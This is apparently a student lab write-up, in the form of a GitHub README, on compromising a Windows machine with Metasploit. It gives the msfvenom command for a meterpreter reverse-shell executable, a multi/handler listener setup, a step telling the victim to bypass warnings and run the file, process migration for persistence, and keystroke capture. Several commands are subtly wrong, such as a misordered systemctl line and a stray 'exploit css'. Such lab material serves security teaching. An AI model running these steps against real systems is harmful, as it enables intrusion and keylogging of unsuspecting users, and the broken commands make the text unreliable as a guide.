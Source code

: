 # Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![ethical_6 1](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/b475e147-74c7-4e34-be25-d4820f93b867)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![ethical_6 2](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/4dec2572-ff3e-491e-8025-038022269eb9)


copy the fun.exe into the apache /var/www/html folder

![ethical_6 3](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/769e78fe-55be-4369-9094-786c2dd460ac)


Start apache server sudo systemctl apache2 start

![ethical_6 4](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/d74a83d7-becb-41f6-87a4-f4aec47fada5)

Check the status of apache2

1


Invoke msfconsole:
msfconsole

![ethical_6 5](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/bb77d7c3-ea23-46d0-95e5-1bc63dc8b597)



Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


![ethical_6 6](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/021b73fe-0c10-4f8c-bab0-167650e6cf53)


Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![ethical_6 7](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/0ace7b2e-ea18-4b21-9888-796c11ee0caf)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![ethical_6 8](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/9d8ab975-5ddd-42e7-9fb0-ceebad2771cc)


Bypass any warning boxes, double-click the file, and allow it to run.

![ethical_6 9](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/42179281-73e2-4768-9e85-166c2489ba21)



On kali give the command exploit
![ethical_6 10](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/65968bd8-ad25-4b9e-b67b-2d1cc981cfb0)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![ethical_6 11](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/bf35eb36-f20c-4be7-83a9-79015aa2edc1)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![ethical_6 12](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/3fc4ec5e-4ee0-4144-8175-1bba188f064f)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![ethical_6 13](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/27da9493-74af-4eef-8bd9-12cca82c15ca)

![ethical_6 14](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/a5c2bde8-be7c-47d3-9d59-f7d1e1407754)


keyscan_dump Shows the keystrokes captured so far.

![ethical_6 15](https://github.com/gummadileepkumar/Compromising-windows-using-Metasploit/assets/118707761/315574a7-5fc8-490f-b255-44857e3a6f77)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
